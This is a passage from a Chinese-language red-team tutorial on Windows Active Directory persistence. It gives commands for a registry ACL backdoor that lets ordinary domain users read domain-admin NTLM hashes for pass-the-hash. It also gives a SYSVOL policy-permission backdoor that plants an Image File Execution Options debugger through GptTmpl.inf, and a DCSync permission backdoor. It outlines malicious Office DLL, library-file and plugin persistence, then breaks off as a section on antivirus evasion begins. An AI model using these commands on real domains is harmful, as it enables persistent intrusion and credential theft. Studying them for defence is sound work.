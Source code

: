 ### <a class="reference-link" name="14.acl"></a>14.acl

方法1：基于注册表ACL后门，在域控制器上将hklm的特定键值分配everyone读取权限，使用DAMP这个工具设置即可。之后在。普通用户机器上读ntlm hash。

```
首先在域控上修改：
import-module Add-RemoteRegBackdoor.ps1 //导入
Add-RemoteRegBackdoor -ComputerName client.external.local -Trustee 'S-1-1-0' -Verbose 
然后普通用户机器上读ntlm hash：
import-module RemoteHashRetrieval.ps1   //导入
Get-RemoteLocalAccountHash -ComputerName ad1 -Verbose   //域内普通用户读取域管ntlm hash
之后可以pth等等
```

方法2：基于域策略文件权限后门，域里机器每过一段时间会访问域控制器的C:\Windows\SYSVOL\sysvol\domain. com\Policies 以更新它们的策略。我们可以配置Policies的文件夹权限为everyone完全控制。

```
cacls C:\Windows\SYSVOL\sysvol\lce.com\Policies /e /t /c /g "EveryOne":f  //配置policies文件夹权限为everyone完全控制
import-module powerview.ps1 //导入powerview脚本
Get-NETGPO -ComputerName w7 |fl gpcfilesyspath  //查询某台机器对应的策略文件
找到目标文件夹下MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf文件，在文件末尾添加：//修改策略
[Registry Values] MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskhost.exe\Debugger=1,c:\windows\system32\calc.exe [Version] signature="$CHICAGO$" Revision=1
gpupdate /force //手动刷新策略触发策略启动计算器
```

方法3：dcsync后门，在高级功能的安全中把everyone用户设置成完全控制，任意用户可以导出域hash，并pth。

### <a class="reference-link" name="15.%E5%85%B6%E4%BB%96%E6%96%B9%E5%BC%8F"></a>15.其他方式

<a class="reference-link" name="office%E7%B3%BB%E5%88%97"></a>**office系列**

基本思路是将恶意dll文件保存到office打开时会调用dll的位置，如%APPDATA%\Microsoft\Word\Startup、%appdata%\Microsoft\AddIns等，然后修改注册表，实现打开office软件加载恶意dll的目的。

<a class="reference-link" name="windows%E5%BA%93"></a>**windows库**

创建clsid；在Windows的xml库文件中插入simplelocation元素。

<a class="reference-link" name="%E5%BA%94%E7%94%A8%E6%8F%92%E4%BB%B6%E5%92%8C%E6%89%A9%E5%B1%95"></a>**应用插件和扩展**

比如chrome的恶意插件，vs，notepad++等。

> 其他后门方式也还有很多，多多探索，不局限于这些入门级的后门!



## 0x02 免杀浅析

### <a class="reference-link" name="1.%E5%88%86%E7%A6%BB%E5%85%8D%E6%9D%80"></a>1.分离免杀

<a class="reference-link" name="shellcode%20loader"></a>**shellcode loader**
